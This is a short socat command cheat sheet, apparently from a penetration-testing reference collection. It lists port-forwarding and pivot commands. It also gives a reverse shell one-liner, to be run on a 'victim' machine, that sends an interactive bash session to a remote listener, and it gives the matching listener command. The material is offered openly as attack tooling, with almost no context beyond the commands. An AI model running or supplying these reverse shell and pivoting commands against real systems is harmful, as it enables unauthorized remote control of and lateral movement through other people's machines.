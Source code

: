 # socat

% socat

## socat port forwarding listener (on local machine)
#plateform/linux  #target/remote  #cat/PIVOT 
```
./socat TCP-LISTEN:<port_listener|4444>,fork,reuseaddr TCP-LISTEN:<port_to_forward>
```

## socat port forwarding connect (on remote machine)
#plateform/linux  #target/remote  #cat/PIVOT 
```
./socat TCP:<connect_ip>:<connect_port|4444> TCP:127.0.0.1:<port_to_forward>
```

## socat reverse shell (remote victime)
#plateform/linux  #target/remote  #cat/PIVOT 
```
./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<listner_ip>:<listner_port|4444>
```

## socat reverse shell listener (local)
#plateform/linux  #target/remote  #cat/PIVOT 
```
socat file:`tty`,raw,echo=0 tcp-listen:<listner_port|4444>
```

## local port redirection
```bash
sudo socat TCP-LISTEN:<listen_port>,fork TCP:localhost:<redirection_port>
```
